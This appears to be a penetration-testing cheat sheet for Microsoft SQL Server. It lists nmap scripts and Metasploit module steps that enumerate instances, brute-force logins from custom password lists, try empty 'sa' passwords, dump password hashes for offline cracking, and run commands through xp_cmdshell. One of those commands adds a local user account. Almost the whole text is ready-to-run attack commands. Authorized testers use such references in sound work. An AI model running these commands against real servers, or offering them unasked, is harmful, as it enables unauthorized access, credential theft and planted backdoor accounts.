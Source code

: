 ``` bash

nmap -p 445 --script ms-sql-info <host>

nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
# Attempts to determine configuration and version information for Microsoft SQL Server instances.

nmap -p 1433 --script ms-sql-ntlm-info <target>
# This script enumerates information from remote Microsoft SQL services with NTLM authentication enabled.

nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=customuser.txt,passdb=custompass.txt <host>

nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>
# Performs password guessing against Microsoft SQL Server (ms-sql). Works best in conjunction with the `broadcast-ms-sql-discover` script.

nmap -p 445 --script ms-sql-empty-password --script-args mssql.instance-all <host>

nmap -p 1433 --script ms-sql-empty-password <host>
#Attempts to authenticate to Microsoft SQL Servers using an empty password for the sysadmin (sa) account.

nmap -p 1433 <ip> --script ms-sql-dump-hashes
# Dumps the password hashes from an MS-SQL server in a format suitable for cracking by tools such as John-the-ripper. In order to do so the user needs to have the appropriate DB privileges.

nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell <host>

nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" <host>
# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql).
```

### Microsoft SQL Server Configuration Enumerator - Metasploit
This module will perform a series of configuration audits and security checks against a Microsoft SQL Server database. For this module to work, valid administrative user credentials must be supplied.

``` bash
msf > use auxiliary/admin/mssql/mssql_enum 
msf auxiliary(mssql_enum) > show targets ... a list of targets ... 
msf auxiliary(mssql_enum) > set TARGET target-id 
msf auxiliary(mssql_enum) > show options ... show and set options ... 
msf auxiliary(mssql_enum) > exploit
```

### MSSQL Login Utility - Metasploit
This module simply queries the MSSQL instance for a specific user/pass (default is sa with blank).

```
msf > use auxiliary/scanner/mssql/mssql_login
msf auxiliary(mssql_login) > show options
    ... show and set options ...
msf auxiliary(mssql_login) > set RHOSTS ip-range
msf auxiliary(mssql_login) > exploit
```
